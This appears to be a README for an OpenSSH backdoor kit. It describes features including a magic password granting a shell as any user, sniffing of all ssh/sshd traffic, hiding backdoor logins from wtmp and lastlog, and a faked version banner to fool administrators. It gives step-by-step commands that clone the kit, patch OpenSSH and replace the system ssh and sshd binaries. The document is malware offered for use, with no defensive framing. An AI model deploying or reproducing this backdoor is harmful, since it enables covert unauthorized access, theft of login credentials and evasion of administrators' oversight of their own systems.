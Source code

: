 # OpenSSH 6.7p1 backdoor kit

## coded by bl0w. bl0w@koresec.org

## Features:

 - magic password to get shell with any user (encrypted or no)
 - sniffs all in/out from ssh/sshd, log file encrypted or no.
 - you can chose directory of log decryptor and directory of sniff-logs.
 - all connections accepted by backdoor wont logged by lastlog/wtmp/udp.
 - simple setup, just setup.sh!
 - fake banner and fake version, if admin do ssh -v or sshd -v banner will be faked! :~

## Get started:
## Follow instructions, it`s very easy!

```bash
apt-get install -y libpam0g-dev git wget make gcc libssl-dev zlibc zlib1g zlib1g-dev
wget http://www.mirrorservice.org/pub/OpenBSD/OpenSSH/portable/openssh-6.7p1.tar.gz
tar -xzvf openssh-6.7p1.tar.gz
cd openssh-6.7p1
git clone https://github.com/Rudedog9d/openssh-backdoor-kit
cp -v openssh-backdoor-kit/* ./
patch -p1 < backdoor.patch
sh setup.sh
cp sshd /usr/sbin
cp ssh /usr/bin
```

## You can manually start:

```bash
$ /etc/init.d/ssh stop
$ /root/openssh-6.7p1/sshd -dd -f /etc/ssh/sshd_config
```
